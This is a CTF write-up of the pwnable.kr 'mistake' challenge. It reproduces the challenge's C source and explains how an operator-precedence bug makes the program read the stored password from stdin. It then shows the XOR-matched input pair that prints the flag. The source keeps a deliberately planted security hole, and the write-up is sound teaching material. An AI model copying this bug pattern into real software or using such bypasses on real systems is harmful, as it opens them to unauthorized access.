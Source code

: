 # mistake

This small challenge of pwnable.kr is one I really enjoyed, and even though its pretty  easy and straightforward
it tested some of my basic code reviewing skills. Also, the fact that it's based on a real world situation makes it much more interesting for me.
Without further ado let's jump into it.

### Disclaimer!

I changed the original flag with the custom flag "Shad3 pwnned this", it's better to exploit it yourself,
than just copy it :P.

## Enumeration

By connecting through ssh to the server as usual we get 4 files as shown bellow.

```python
shad3@zeroday:~/Desktop/Security/CTF$ ssh mistake@pwnable.kr -p2222
mistake@pwnable.kr's password: 
 ____  __    __  ____    ____  ____   _        ___      __  _  ____  
|    \|  |__|  ||    \  /    ||    \ | |      /  _]    |  |/ ]|    \ 
|  o  )  |  |  ||  _  ||  o  ||  o  )| |     /  [_     |  ' / |  D  )
|   _/|  |  |  ||  |  ||     ||     || |___ |    _]    |    \ |    / 
|  |  |  `  '  ||  |  ||  _  ||  O  ||     ||   [_  __ |     \|    \ 
|  |   \      / |  |  ||  |  ||     ||     ||     ||  ||  .  ||  .  \
|__|    \_/\_/  |__|__||__|__||_____||_____||_____||__||__|\_||__|\_|
                                                                     
- Site admin : daehee87@gatech.edu
- IRC : irc.netgarage.org:6667 / #pwnable.kr
- Simply type "irssi" command to join IRC now
- files under /tmp can be erased anytime. make your directory under /tmp
- to use peda, issue `source /usr/share/peda/peda.py` in gdb terminal
You have new mail.
mistake@pwnable:~$ ls -la
total 44
drwxr-x---   5 root        mistake 4096 Oct 23  2016 .
drwxr-xr-x 116 root        root    4096 Nov 12 21:34 ..
d---------   2 root        root    4096 Jul 29  2014 .bash_history
dr-xr-xr-x   2 root        root    4096 Aug 20  2014 .irssi
drwxr-xr-x   2 root        root    4096 Oct 23  2016 .pwntools-cache
-r--------   1 mistake_pwn root      51 Jul 29  2014 flag
-r-sr-x---   1 mistake_pwn mistake 8934 Aug  1  2014 mistake
-rw-r--r--   1 root        root     792 Aug  1  2014 mistake.c
-r--------   1 mistake_pwn root      10 Jul 29  2014 password
mistake@pwnable:~$  
```
Lets start analysing the source code to find the bugs.

```c
#include <stdio.h>
#include <fcntl.h>

#define PW_LEN 10
#define XORKEY 1

void xor(char* s, int len){
        int i;
        for(i=0; i<len; i++){
                s[i] ^= XORKEY;
        }
}

int main(int argc, char* argv[]){

        int fd;
        if(fd=open("/home/mistake/password",O_RDONLY,0400) < 0){
                printf("can't open password %d\n", fd);
                return 0;
        }

        printf("do not bruteforce...\n");
        sleep(time(0)%20);

        char pw_buf[PW_LEN+1];
        int len;
        if(!(len=read(fd,pw_buf,PW_LEN) > 0)){
                printf("read error\n");
                close(fd);
                return 0;
        }

        char pw_buf2[PW_LEN+1];
        printf("input password : ");
        scanf("%10s", pw_buf2);

        // xor your input
        xor(pw_buf2, 10);

        if(!strncmp(pw_buf, pw_buf2, PW_LEN)){
                printf("Password OK\n");
                system("/bin/cat flag\n");
        }
        else{
                printf("Wrong Password\n");
        }

        close(fd);
        return 0;
}
```

By analysing the code we spot the first bug, that's on the first if statement, 

``if(fd=open("/home/mistake/password",O_RDONLY,0400) < 0)``

The bug here is that the comparison operator (**<**) has higher operator priority than the assignment one (**=**).
The above if statement can be expressed better in the following pseudocode:
```python
    function bug():
        if open("password file") < 0 == True:
            return 1
        else:
            return 0

    fd = call()
```
If the **open** function finds the password file and opens it, returns a possitive integer,
with that being said the if check in the **bug** function in our pseudocode ***will always return 0***, that assigns 0 to the,
**fd** variable which is used as a file descriptor, the 0 file descriptor is reserved as, **STDIN**. 
Then then program will duplicate the input that it read from stdin to the pw_read buffer.
``if(!(len=read(fd,pw_buf,PW_LEN) > 0))``
Now that we control the compaired input we only need to find a way to bypass the checks,
We notice that the scanf reads 10 bytes from stdin,stores them in the pw_buf2 buffer, XORs them with 1 and the compaires 
them with pw_buf.


## Exploit

To bypass the checks we have to find a combination of two password that the after the XOR operation of one will result to the other.
```python
shad3@zeroday:~/Desktop/Security/CTF/pwnable.kr/mistake$ python3
Python 3.6.9 (default, Nov  7 2019, 10:44:02) 
[GCC 8.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> hex(ord('B'))
'0x42'
>>> 0x42 ^ 1
67
>>> chr(67)
'C'
>>> if 67 ^ 1 == 66:
...     print ("That works!")
... 
That works!
```
Based on the output above the passwords BBBBBBBBBB:CCCCCCCCCC should do the job.
```python
shad3@zeroday:~/Desktop/Security/CTF/pwnable.kr/mistake$ ./mistake
do not bruteforce...
BBBBBBBBBB
input password : CCCCCCCCCC
Password OK
Shad3 pwnned this!
```

And it actually works!